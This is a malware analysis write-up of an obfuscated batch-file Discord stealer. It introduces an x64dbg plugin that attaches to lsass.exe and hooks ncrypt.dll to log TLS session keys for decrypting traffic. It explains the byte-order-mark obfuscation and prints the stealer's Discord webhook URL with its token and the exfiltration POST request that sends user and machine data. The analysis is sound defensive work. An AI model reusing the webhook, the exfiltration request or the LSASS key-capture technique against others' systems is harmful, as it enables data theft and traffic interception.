




# Malware Analysis Writeup | Bat Stealer(Chine Encode) and introduzing WinHandKill X64DBG Plugin
Author: João Vitor (@Keowu) - Malware Security Researcher

# Sample identification hash

This malware does not belong to a family, but it is a stealer designed to steal Discord credentials by offering something in return. The objective of this article is not to present an analysis of the malware in question, but to introduce my new project that allows you to automate and simplify your life a million times over.

# Table of Contents
1. [Overview](#overview)
2. [Explaning the context](#explaning-the-context)
3. [Installing the plugin](#installing-the-plugin)
4. [Using WinHandKill on a real malware](#using-winhandkill-on-a-real-malware)
5. [Analyzing manually and comparing with the WinHandKill](#analyzing-manually-and-comparing-with-the-winhandkill)
6. [IOCS](#iocs)


## Overview

The malware in question was taken from YouTube videos, offering benefits in exchange, whether it be a software, a computer and system performance improvement tool, or a Discord nitro generator (Ok, I pretended to be a target of this for the sake of computer science research).

## Explaning the context

Stealer malwares can be combated by finding their configuration files, which can be time-consuming and repetitive in some cases, given that the vast majority currently are clones of GitHub projects with altered configurations. However, some have unique or heavily obfuscated or virtualized characteristics. The big question is that you can easily find a network IOC and block it, but in some cases, that alone may not be sufficient, and we need to understand what information is being exchanged between the client and server. When the malware does not use a certificate in its communication, the process can be easily resolved using tools like Wireshark. However, when TLS is added, the task can be challenging. Until now, because it is possible to greatly simplify our lives when looking for the TLS key used in communication.

In Windows, the TLS keys used for all network communications made in the system are operated by the "LSASS.EXE" process, which is protected from the kernel land from newer versions of Windows.

The APIs used by the system process "lsass.exe", which we will refer to as "Local Security Authority Subsystem Service" in this article, are all imported from another DLL, "ncrypt.dll," responsible for managing the encryption functions of the operating system. The exports used for the TLS handshake procedures are:

|       **Export name**      |              **Version**             |
|:--------------------------:|:------------------------------------:|
| SslHashHandshake           | TLS1.3 e TLS1.2 with RFC 7627        |
| SslGenerateMasterKey       | TLS1.2 with RFC 7627                 |
| SslImportMasterKey         | TLS1.2 client e server from RFC 7627 |
| SslGenerateSessionKeys     | TLS1.2 client e server from RFC 7627 |
| SslExpandTrafficKeys       | TLS 1.3                              |
| SslExpandExporterMasterKey | TLS 1.3                              |

Each of these exports is responsible for managing all the TLS keys used by the operating system and its software or malware, which is our scope of attack.

However, thanks to the kernel land protection on the "Local Security Authority Subsystem Service" process, we are unable to inject a DLL to perform hooks and obtain keys for our own benefit. In other words, we cannot inject code into a process whose scope is protected by the operating system's kernel. However, this does not prevent us from using another approach to at least control the execution and retrieve the key values during calls to the DLLs. For this, we can use the "SeDebugPrivilege" permission. But of course, nothing in life is easy. There are only two ways to obtain access to this permission. The first, the title already reveals it: "x64dbg" with administrator permissions can use the "SeDebugPrivilege" permission because it needs this privilege [probably something similar to the example that Microsoft itself indicates in C++](https://learn.microsoft.com/en-us/windows/win32/secauthz/enabling-and-disabling-privileges-in-c--). The other way is via PowerShell when running with administrator permission. It should be noted that the privilege itself cannot be obtained through Microsoft's common prompt.

My choice for x64dbg is made because it is a stable project with a receptive community, is heavily used, and has a very complete SDK that allows the debugger to be manipulated as desired. If you can support the project, it will certainly encourage such an amazing project.


The WinHandKill plugin/project was developed to run only on x64 environments. I disregarded the possibility of using x32 since the x64 version is sufficient for our goal here. During the development of this plugin, I used the "Windows 10 1903 (x64)" version because it is the version I usually use in my daily routine due to personal preference. You may need to adjust some details of the plugin if you choose to run it on another version of the system (just remember to disable memory exploit protection if you are using Windows 11). In the future, I plan to allow multiple versions of the operating system, and you can easily port it to the latest versions by simply changing the offsets of the "ncrypt.dll" DLL. Use IDA to your advantage. If you wish to obtain [my version of Windows 10, you can get it here](https://archive.org/details/windows-10-1903-x-64). This link is shared by Microsoft itself, so do not expect to find a cracked system provided by me at your disposal (this message is certainly directed at Microsoft's sales team who loves to charge for licenses).

You probably already know how the installation process works, but stay here and keep reading, the part that interests you is coming soon ^ ⁼ ^.

## Installing the plugin

Let's get to know the plugin itself:


To install, go to the main directory of your "x64dbg.exe" and create a folder called "plugins", see the example:


Copy the downloaded plugin into it, and then open your x64dbg (as an administrator).


If everything goes well, you should see the menu above in the plugins tab of your x64dbg.

Now, you need to attach the process of "Local Security Authority Subsystem Service":



With the process attached, go to the "log" screen. There you should type the command "WinHandKill" in the console so that the plugin starts its work:



Once started, pay close attention, do not terminate the process through x64dbg (it has access to SeDebugPrivilege permission) as this will certainly cause the process to terminate, and the certainty is even greater when considering that your entire system will go down with it:


[Did not understand the joke? See it here.](https://www.youtube.com/watch?v=IW7Rqwwth84)

My point here is that since we are manipulating a critical process, let the plugin handle all this task, and in case of an emergency, press the "CTRL+1" combo to stop it instantly and leave everything ready for you to simply detach the debugger from the process. It is important that this is clear, hooks in system processes can often not end well (although they are very cool). So I ask you to pay close attention and follow the steps indicated by the plugin to the letter, and of course, also check if there are any breakpoints or if the EIP is stopped before detaching the process.

Once started and you confirm each dialogue explaining the precautions you should take, the plugin will start its work and begin logging all possible TLS keys from all possible communications on your operating system:


These keys are stored with the utmost care at the root of your C: drive under the name "lsassExtractedKeys.txt". Let's check its contents:


All of these keys were used in web communications just by opening Microsoft's browser. They should be imported into your Wireshark or another network traffic capture tool. And it's not just because I developed it, but this tool will help you a lot to improve your analysis.

After presenting the concept behind the plugin and its idea, let's go back to the random malware I downloaded from YouTube and apply the power of the plugin to recover the tokens of the Discord webhooks and discover what data they send from our system. Don't worry, I will also share the malware analysis manually because that's what we love, analyzing malware and software and understanding how everything around us works \o/.

## Using WinHandKill on a real malware

Let's start our analysis from the ".bat" file, it's a stealer that will steal data and credentials and send everything to a Discord server. This file is interesting because it's obfuscated (using the well-known obfuscation that replaces characters with Chinese, and other string tricks):


As we already know, the file is using an "obfuscation" technique, which transforms all its characters into invalid Unicode characters (aka Chinese obfuscation).



It is relatively easy to solve this type of obfuscation (if you have a good foundation of encoded files), but the point here is to demonstrate how WinHandKill can help you with this task, and then, of course, explain how to solve it.

To obtain the network IOC and discover what data the malware is sending to the Discord webhook, we will use our tool. First, you need to open your Wireshark to log the network, in addition to opening x64dbg (as administrator) and attaching the "lsass.exe" process:


After starting Wireshark and x64dbg and initiating the plugin with the "WinHandKill" command, it is recommended that you start the plugin before capturing the network. After starting the capture, just run the malware:


Right after running the malware and capturing the network traffic, we will obtain all network IOCs from the computer during that period. However, this doesn't add much value since the malware used TLS during its communication.


So let's import the TLS keys intercepted by WinHandKill into Wireshark so that we can understand and find the IOC used by the malware:


To do this, go to the "edit" menu, then "Preferences...", and then navigate to "Protocols" and finally look for "TLS":


After finding the TLS settings tab, look for the file with the keys and set "(Pre)-Master-Secret log filename" to point to the file of the keys. Then just click OK so that Wireshark uses the keys in our current capture.


As we can see, SSL traffic is now visible to us. Here is the first IOC: a query to a website using TLS with the HTTPS protocol, followed by a Discord webhook. And we can even decrypt TLS network traffic because we have the keys used in the communication. Here's an example applied to Discord:


As we can see, we have recovered all the IOCs and the Webhook address, and we can also decrypt all the information that the malware was sending to the attacker's Discord server.

## Analyzing manually and comparing with the WinHandKill

Now let's manually reverse the bat malware. We'll just learn something new here: how the developer managed to obfuscate it and why, and of course, discover its webhook manually.

For this task, open the "obfuscated" bat file in a hex editor:


As you can see, some data is still readable. The reason why the characters are being displayed as Chinese is due to the bytes ```FF FE```. This byte order mark is forcing the text editor to parse it as ```UTF-16 LE```. To read the file, you just need to remove the bytes indicating to the text editor that it's using ```UTF-16 LE```, as well as the bytes themselves, like this:



And now we can finally open the file in a text editor without "obfuscation/wrong file encoding":


Now comes the characteristics of analyzing a conventional bat file, rewriting and removing escape characters. I edited it so that it only executes an ```echo``` command on the malware's Discord webhook:


The result of running the edited script I made:


Notice how the WinHandKill plugin can be very useful for you in your analyses. A simple execution has already given us all the TLS keys used in communication with the Discord server at the time of the handshake. This allows us to decrypt and obtain information much faster than having to analyze an obfuscated bat file. Of course, analyzing malware is also very cool, so consider it as an option in your arsenal. Modify and improve it, feel free to test my plugin and share the ncrypt.dll DLL and your version of Windows so that we can improve and expand the use of the plugin even further. ^ = ^

## IOCS

hxxps[:]//discord[.]com/api/webhooks/1100125648112058529/wkJae63wSH1f1l7iG05gQrrJ9a_qHK7yJjtQNcmUPDqwSUWtQSkIxWivWwaDMx_12i_c

Send to:

```
POST /api/webhooks/1100125648112058529/wkJae63wSH1f1l7iG05gQrrJ9a_qHK7yJjtQNcmUPDqwSUWtQSkIxWivWwaDMx_12i_c HTTP/1.1
Host: discord.com
User-Agent: curl/7.55.1
Accept: */*
Content-type: application/json
Content-Length: 143
 
{"content": "```User = %r:~13,1%r:~8,1  Ip =  time =  16:29:14.23 date = Wed 04/26/2023 os = r:~8,1% Computername = r:~12,1r:~13,1%r:~4,1 ```"}
```

hxxps[:]//myexternalip[.]com/raw